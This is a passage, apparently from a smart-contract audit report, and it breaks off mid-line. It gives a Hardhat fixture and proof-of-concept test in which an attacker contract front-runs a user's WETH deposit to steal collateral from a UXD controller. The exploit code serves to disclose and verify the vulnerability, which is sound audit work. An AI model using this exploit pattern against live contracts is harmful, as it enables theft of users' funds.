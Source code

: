 ```typescript
    await (await controller.whitelistAsset(weth.address, true)).wait();
    await (await controller.updateRouter(router.address)).wait();
    await (await controller.setRedeemable(uxd.address)).wait();

    const transferAmount = ethers.utils.parseEther("100");
    await (await usdc.transfer(controller.address, transferAmount)).wait();

    await (await weth.deposit({value: transferAmount})).wait();
    await (await (weth.transfer(controller.address, transferAmount))).wait();

    const attack = await (await ethers.getContractFactory("AttackPoCH01")).deploy(controller.address, weth.address, usdc.address, uxd.address) as AttackPoCH01;

    return {controller, router, usdcDepository, wethDepository, weth, usdc, uxd, attack};
}
```

The snippet below shows my test code.

Please insert this code in `test/core/UXDController.test.ts` (existing file).

```typescript
import { pocH01Fixture } from "../fixtures/pocH01Fixture";

// ...

it("PoC H-01 -- stealing all collateral assets on Rage Trade", async () => {
    const {controller, weth, usdc, uxd, attack} = await loadFixture(pocH01Fixture);
    const amount = ethers.utils.parseEther("1");
    const minAmountOut = 0;

    let attacker: SignerWithAddress;
    [, , attacker] = await ethers.getSigners();

    // Initialize the PoC (transfer 1 WETH to Bob and 1 USDC to Attacker)
    await (await weth.transfer(bob.address, ethers.utils.parseEther("1"))).wait();
    await (await usdc.transfer(attacker.address, ethers.utils.parseEther("1"))).wait();

    // Bob deposits 1 WETH for minting UXD...
    let bobUxdBalanceBefore = await uxd.balanceOf(bob.address);
    await (await weth.connect(bob).approve(controller.address, amount)).wait();
    await expect (controller.connect(bob).mint(weth.address, amount, minAmountOut, bob.address)).to.emit(controller, "Minted");
    let bobUxdBalanceAfter = await uxd.balanceOf(bob.address);

    // Bob realizes the protocol's error (he received only 1 UXD)
    // So he tries to redeem 1 UXD to get back his 1 WETH
    expect(
        bobUxdBalanceAfter.sub(bobUxdBalanceBefore).div(ethers.utils.parseUnits('1', await uxd.decimals()))
    ).to.equal(1);

    // Attacker detects Bob's activity
    // They front-run Bob's transaction
    let attackerWethBalanceBefore = await weth.balanceOf(attacker.address);

    await (await usdc.connect(attacker).approve(attack.address, amount)).wait();
    await (await attack.connect(attacker).attackWethDepository(amount)).wait();

    let attackerWethBalanceAfter = await weth.balanceOf(attacker.address);

    // Attacker stole 1 WETH!!
    expect(
```
